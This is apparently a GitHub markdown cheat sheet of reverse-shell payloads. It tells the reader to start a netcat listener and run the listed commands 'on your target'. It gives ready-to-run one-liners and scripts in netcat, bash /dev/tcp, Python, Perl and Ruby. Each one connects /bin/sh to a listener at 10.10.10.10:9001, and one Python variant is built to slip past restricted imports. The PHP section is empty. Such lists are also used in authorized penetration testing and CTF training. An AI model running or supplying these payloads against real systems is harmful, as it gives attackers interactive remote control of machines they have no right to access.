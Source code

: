 # Reverse Shell

- [How To?](#how-to?)
- [Netcat](#netcat)
- [Bash](#bash)
- [Python](#python)
- [Perl](#perl)
- [Ruby](#ruby)
- [PHP](#php)

# How to?

All the reverse shell you found below is use on your target. Also, on your machine please make sure to listen like below:

```
nc -lnvp 9001
```

So while listen you will try to run the listed reverse shell below on your target and hopefully you will get a shell :)

### Netcat

```
# Option 1
nc -e /bin/sh 10.10.10.10 9001

# Option 2
nc 10.10.10.10 9001 -e /bin/sh

# Option 3
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

### Bash

```
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

### Python

When you need to run without a file.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

When you need to run with a file. You can save it as shell.py.
```
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.10",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

When you only have python3 only.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

When import have been secured.
```
socket = __import__("socket")
subprocess = __import__("subprocess")
os = __import__("os")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.10",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### Perl

When you need to run without a file.
```
perl -e 'use Socket;$i="10.10.10.10";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

When you need to run with a file. You can save it as shell.pl.
```
use Socket

$i="10.10.10.10";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### Ruby

When you need to run without a file.
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10",9001);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

When you need to run with a file. You can save it as shell.rb
```
require 'socket'

c=TCPSocket.new("10.10.10.10",9001)

while(cmd=c.gets)
    IO.popen(cmd,"r"){
        |io|c.print io.read
    }
end
```

### PHP

